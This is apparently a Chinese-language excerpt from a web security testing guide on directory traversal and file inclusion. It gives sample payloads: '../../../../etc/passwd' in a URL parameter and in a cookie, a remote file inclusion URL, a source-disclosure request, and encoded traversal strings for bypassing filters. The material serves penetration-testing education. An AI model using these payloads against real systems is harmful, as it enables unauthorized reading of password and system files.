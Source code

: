 下一个测试阶段是分析web应用中提供的输入验证功能。使用上面的例子，一个动态页面叫做 *getUserProfile.jsp* 从文件读取静态信息，并展示其内容给用户。一个攻击者可能插入恶意字符串 *"../../../../etc/passwd"* 来包含Linux/UNIX系统的密码哈希文件。显然这种攻击只有当输入验证环节发生错误时，并根据文件系统的相关权限，web应用本身能读取这个文件是才能成功。


为了成功测试这些缺陷，测试者需要了解被测试系统的信息和请求文件的位置。在IIS服务器中无法取得 /etc/passwd 文件。

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd
```

又比如这个Cookie的例子：

```
Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```


也有可能包含外部站点的文件和脚本。
```
http://example.com/index.php?file=http://www.owasp.org/malicioustxt
```


下面的例子证明如何不使用任何目录遍历字符来显示CGI组件的源代码。

```
http://example.com/main.cgi?home=main.cgi
```

一个叫做*"main.cgi"*的组件位于正常的HTML静态文件的相同目录。


在一些例子中，测试者需要编码特殊的字符（像 "**.**" 点，"**%00**" NULL字符等等）来绕过文件扩展名限制或阻止其他脚本执行。

<b>Tip：</b>
开发者往往没有预料到所有的编码形式，只进行了基本编码内容的验证，这是一个很常见的错误。如果最初的测试字符串没有成功，可以尝试使用其他编码模式。


每种操作系统都使用不同的字符作为路径分割符号：

*Unix类 OS*:
```
根目录: "/"
目录分割符: "/"
```

*Windows OS*:
```
根目录: "<驱动器盘符>:\"
目录分割符: "\" or "/"
```

*经典 Mac OS*:
```
根目录: "<驱动器盘符>:"
目录分割符: ":"
```

我们应该考虑如下的编码机制：

* URL编码和双重URL编码

```
%2e%2e%2f 代表 ../
%2e%2e/ 代表 ../
..%2f 代表 ../
%2e%2e%5c 代表 ..\
%2e%2e\ 代表 ..\
..%5c 代表 ..\
%252e%252e%255c 代表 ..\
..%255c 代表 ..\ 
等等
```
